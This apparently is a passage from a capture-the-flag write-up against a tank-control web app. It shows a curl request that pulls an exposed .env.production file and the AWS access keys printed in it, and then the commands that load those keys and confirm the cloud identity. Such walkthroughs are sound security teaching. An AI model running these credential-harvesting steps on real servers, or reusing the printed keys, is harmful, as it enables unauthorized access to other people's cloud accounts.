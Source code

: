 ![image-20250424103057503](assets/env.png)

It priorities `.env.production` in general. Let's try if we can access `.env` or `.env.production` or `.env.local` files. 

```bash
curl http://18.189.24.231:5173/.env.production -s 

# Tank System Configuration
VITE_TANK_INTERVAL=100
VITE_TANK_MAX_LEVEL=100
VITE_TANK_MIN_LEVEL=0
VITE_TANK1_START_LEVEL=0
VITE_TANK2_START_LEVEL=0
VITE_VALVE0_OPEN=true
VITE_VALVE1_OPEN=false
VITE_VALVE2_OPEN=false

# AWS Credentials - Use ONLY for local dev or if you're accessing via a proxy API
VITE_AWS_ACCESS_KEY_ID=AKIARHJJMXKMS7Y56N2X
VITE_AWS_SECRET_ACCESS_KEY=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
VITE_AWS_REGION=us-east-2
VITE_DYNAMODB_TABLE_NAME=tanklevels
```

We find AWS credentials and DynamoDB table name from this file. Let's configure keys and list dynamodb tables. 

```bash
aws configure
AWS Access Key ID [None]: AKIARHJJMXKMS7Y56N2X
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-2
Default output format [None]: 
```

```bash
aws sts get-caller-identity
{
    "UserId": "AIDARHJJMXKMYDS725IT7",
    "Account": "084375550617",
    "Arn": "arn:aws:iam::084375550617:user/opcache"
}
```

